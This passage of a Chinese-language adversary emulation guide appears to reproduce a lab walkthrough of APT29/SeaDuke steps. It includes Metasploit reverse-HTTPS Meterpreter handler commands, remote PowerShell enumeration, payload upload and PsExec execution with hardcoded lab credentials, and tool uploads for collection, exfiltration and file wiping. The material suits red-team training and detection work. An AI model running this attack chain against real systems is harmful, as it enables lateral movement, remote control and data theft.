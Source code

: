 攻擊者在創建與第二受害者的遠端PowerShell會話之前，使用輕型目錄訪問協定（LDAP）查詢來枚舉域中的其他主機（T1018）。 通過此連接，攻擊者枚舉了正在運行的進程（T1057）。 接下來，攻擊者將新的UPX打包有效負載（T1045，T1105）上載到第二受害者。 通過先前使用的憑證（T1078）通過PSExec實用程式（T1077，T1035）在第二受害者上執行此新的有效負載。

#### 枚舉其他主機
攻擊者使用輕型目錄訪問協議（LDAP）查詢來枚舉域中的其他主機（T1018）。

```powershell=
PS C:\Program Files\SysinternalsSuite> Ad-Search Computer Name *
```

#### 遠程 PowerShell 會話
攻擊者在創建與第二受害者的遠程 PowerShell 會話之前，會先枚舉正在運行的進程（T1057）。

```powershell=
PS C:\Program Files\SysinternalsSuite> Invoke-Command -ComputerName PC1 -ScriptBlock { Get-Process -IncludeUserName | Select-Object UserName,SessionId | Where-Object { $_.UserName -like "*\$env:USERNAME" } | Sort-Object SessionId -Unique } | Select-Object UserName,SessionId

```

#### 新建一個終端並啟動 msfconsole
使用 Metasploit 框架啟動一個 handler 來接收 Meterpreter 反向連接。

```powershell=
[msf] > handler -H 0.0.0.0 -P 8443 -p python/meterpreter/reverse_https
```

#### 上傳新的 UPX 打包有效負載
攻擊者將新的 UPX 打包有效負載上載到第二受害者。
```powershell=
PS C:\Program Files\SysinternalsSuite> Invoke-SeaDukeStage -ComputerName PC1

```

#### 通過 PSEXEC 遠程執行 python.exe
使用先前獲取的憑證（T1078），通過 PSExec 實用程序在第二受害者上執行新的有效負載。
```powershell=
PS C:\Program Files\SysinternalsSuite> .\PsExec64.exe -accepteula \\PC1 -u "apt.local\jack" -p "Passw0rd!" -i 5 "C:\Windows\Temp\python.exe"
```

### Step 9 - 收集

攻擊者在運行 PowerShell 單行命令（T1086）之前，搜索其他文件（T1083，T1119），然後將其實用程序上載到第二受害者（T1105）。收集感興趣的文件（T1005），然後加密（T1022）並壓縮（T1002）為單個文件（T1074）。接著，該文件通過現有的 C2 連接進行竊取（T1041）。最後，攻擊者刪除與該訪問相關的各種文件（T1107）。

#### 9.A 進入 meterpreter python 會話

進入 meterpreter python 會話並上傳所需工具。

```shell
[msf] > sessions
[msf] > sessions -i 1
[meterpreter] > upload "/home/kali/payloads/day1/Seaduke/rar.exe" "C:\\Windows\\Temp\\Rar.exe"
[meterpreter] > upload "/home/kali/payloads/day1/SysinternalsSuite/sdelete64.exe" "C:\\Windows\\Temp\\sdelete64.exe"
```
